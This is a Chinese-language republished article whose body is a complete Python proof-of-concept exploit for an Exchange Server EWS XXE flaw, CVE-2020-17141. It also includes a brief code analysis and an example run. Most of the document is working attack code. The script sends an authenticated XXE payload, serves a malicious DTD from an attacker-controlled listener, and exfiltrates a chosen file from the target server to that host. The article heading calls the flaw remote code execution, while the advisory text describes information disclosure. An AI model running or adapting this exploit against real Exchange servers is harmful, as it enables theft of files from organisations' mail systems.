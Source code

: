 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/vCvkMYVkH70HNDwoBoqIRg)

Microsoft Exchange 远程执行代码漏洞

POC：  

https://srcincite.io/pocs/cve-2020-17141.py.txt

```
#!/usr/bin/env python3
"""
Microsoft Exchange Server EWS RouteComplaint ParseComplaintData XML External Entity Processing Information Disclosure Vulnerability
Advisory: https://srcincite.io/advisories/src-2020-0031/
Patched in: https://portal.msrc.microsoft.com/security-guidance/advisory/CVE-2020-17141

## Summary

This vulnerability allows remote attackers to disclose information on affected installations of Exchange Server. Authentication is required to exploit this vulnerability. The specific flaw exists within the processing of a RouteComplaint SOAP request to the EWS service endpoint. The issue results from the lack of proper validation of a user-supplied xml. An attacker can leverage this vulnerability to disclose information in the context of SYSTEM.

## Vulnerability Analysis

Inside of the `Microsoft.Exchange.Services.dll` we can see the following class:

```c#
namespace Microsoft.Exchange.Services.Core
{
    internal sealed class RouteComplaint : SingleStepServiceCommand<ICallContext, RouteComplaintRequest, RouteComplaintResponseMessage>
    {

        //...

        internal override ServiceResult<RouteComplaintResponseMessage> Execute()
        {
            if (base.CallContext.EffectiveCaller == null)
            {
                throw new ArgumentNullException("this.CallContext.EffectiveCaller", "EffectiveCaller must not be null.");
            }
            this.abuseReportResults = null;
            IAbuseReportContext abuseReportContext = this.ParseComplaintData();  // 1
            IMailboxSession imailboxSessionBySmtpAddress = base.CallContext.SessionCache.GetIMailboxSessionBySmtpAddress(base.CallContext.EffectiveCaller.PrimarySmtpAddress, false);
            IWasclContext wasclContext = new WasclContext(ProtocolClientType.XMRAR, null, null, string.Empty, "");
            imailboxSessionBySmtpAddress.WasclContext = wasclContext;
            this.abuseReportResults = WasclWrapper.ProcessAbuseReport(abuseReportContext, imailboxSessionBySmtpAddress);
            return new ServiceResult<RouteComplaintResponseMessage>(new RouteComplaintResponseMessage(ServiceResultCode.Success, null, this.EncodeComplaintDataForResponse()), ServiceResultCode.Success);
        }

        // ...

        private IAbuseReportContext ParseComplaintData()
        {
            if (base.Request.Data == null)
            {
                ExTraceGlobals.GetEventsCallTracer.TraceDebug((long)this.GetHashCode(), "RouteComplaint.Execute - RouteComplaintRequest data is null");
                throw new ArgumentNullException("this.complaintData", "ComplaintData must not be null in order to process the abuse report.");
            }
            XmlDocument xmlDocument = new XmlDocument();
            xmlDocument.LoadXml(Encoding.UTF8.GetString(base.Request.Data));  // 2
            XmlNode data = xmlDocument.SelectSingleNode("complaintData");
```

At *[1]* we can see the `RouteComplaint.ParseComplaintData` method is called from the `Execute` method and at *[2]* the code uses attacker supplied data in a `LoadXml` to trigger entity processing.

## Proof of Concept

Change anything within the [] brackets.

```
POST /ews/Exchange.asmx HTTP/1.1
Host: [target]
Content-type: text/xml; charset=utf-8
Authentication: [ntlm auth]
Content-Length: [length]

<?xml version="1.0" encoding="utf-8"?>
<soap:Envelope xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:m="http://schemas.microsoft.com/exchange/services/2006/messages" xmlns:t="http://schemas.microsoft.com/exchange/services/2006/types">
  <soap:Header>
    <t:RequestServerVersion Version="Exchange2010_SP2"></t:RequestServerVersion>
  </soap:Header>
  <soap:Body>
    <m:RouteComplaint MessageDisposition="SaveOnly">
      <m:Data>[base64 encoded XXE payload]</m:Data>
    </m:RouteComplaint>
  </soap:Body>
</soap:Envelope>
```

## Example

```
researcher@incite:~$ ./poc.py
(+) usage: ./poc.py <target> <user:pass> <connectback ip:port> <file>
(+) eg: ./poc.py 192.168.75.142 harryh@exchangedemo.com:user123# 192.168.75.1:9090 "C:/Users/harryh/secrets.txt"

researcher@incite:~$ ./poc.py 192.168.75.142 harryh@exchangedemo.com:user123# 192.168.75.1:9090 "C:/Users/harryh/secrets.txt"
(+) triggered xxe in exchange!
(+) stolen: /leaked?<![CDATA[omgthisisasecret0day]]>
```
"""

import re
import sys
import urllib3
import requests
import urllib.parse
from threading import Thread
from base64 import b64encode
from requests_ntlm2 import HttpNtlmAuth
from http.server import BaseHTTPRequestHandler, HTTPServer
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

class xxe(BaseHTTPRequestHandler):
    def log_message(self, format, *args):
        return
    def _set_response(self, d):
        self.send_response(200)
        self.send_header('Content-type', 'application/xml')
        self.send_header('Content-Length', len(d))
        self.end_headers()
    def do_GET(self):
        if "leaked" in self.path:
            print("(+) stolen: %s" % urllib.parse.unquote(self.path))
            message = "<![CDATA[ <![ INCLUDE[]]> ]]>"
            self._set_response(message)
            self.wfile.write(message.encode('utf-8'))
            self.wfile.write('\n'.encode('utf-8'))
        elif "poc.dtd" in self.path:
            print("(+) triggered xxe in exchange!")
            message = """
<!ENTITY %% payload "%%start;%%stuff;%%end;">
<!ENTITY %% param1 '<!ENTITY % external SYSTEM "http://%s:%d/leaked?%%payload;">'>
%%param1; %%external;""" % (host, int(port))
            self._set_response(message)
            self.wfile.write(message.encode('utf-8'))
            self.wfile.write('\n'.encode('utf-8'))

def main(t, usr, pwd):
    server = HTTPServer(('0.0.0.0', int(port)), xxe)
    handlerthr = Thread(target=server.serve_forever, args=())
    handlerthr.daemon = True
    handlerthr.start()
    username = usr.split("@")[0]
    domain = usr.split("@")[1]
    h = {"Content-type" : "text/xml; charset=utf-8"}
    xxe_payload = """<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE root [
 <!ENTITY %% start "<![CDATA[">
 <!ENTITY %% stuff SYSTEM "file:///%s">
<!ENTITY %% end "]]>">
<!ENTITY %% dtd SYSTEM "http://%s:%d/poc.dtd">
%%dtd;
]>""" % (file, host, int(port))
    d = """<?xml version="1.0" encoding="utf-8"?>
<soap:Envelope xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:m="http://schemas.microsoft.com/exchange/services/2006/messages" xmlns:t="http://schemas.microsoft.com/exchange/services/2006/types">
  <soap:Header>
    <t:RequestServerVersion Version="Exchange2010_SP2"></t:RequestServerVersion>
  </soap:Header>
  <soap:Body>
    <m:RouteComplaint MessageDisposition="SaveOnly">
      <m:Data>%s</m:Data>
    </m:RouteComplaint>
  </soap:Body>
</soap:Envelope>""" % b64encode(xxe_payload.encode()).decode("utf-8") 
    requests.post("https://%s/ews/Exchange.asmx" % t, data=d, headers=h, verify=False, auth=HttpNtlmAuth('%s\\%s' % (domain,username), pwd))
    
if __name__ == '__main__':
    if len(sys.argv) != 5:
        print("(+) usage: %s <target> <user:pass> <connectback ip:port> <file>" % sys.argv[0])
        print("(+) eg: %s 192.168.75.142 harryh@exchangedemo.com:user123# 192.168.75.1:9090 \"C:/Users/harryh/secrets.txt\"" % sys.argv[0])
        sys.exit(-1)
    trgt = sys.argv[1]
    assert ":" in sys.argv[2], "(-) you need a user and password!"
    usr = sys.argv[2].split(":")[0]
    pwd = sys.argv[2].split(":")[1]
    host = sys.argv[3]
    port = 9090
    file = sys.argv[4]
    if ":" in sys.argv[3]: 
        host = sys.argv[3].split(":")[0]
        port = sys.argv[3].split(":")[1]
        assert port.isdigit(), "(-) not a port number!"
    main(trgt, usr, pwd)
```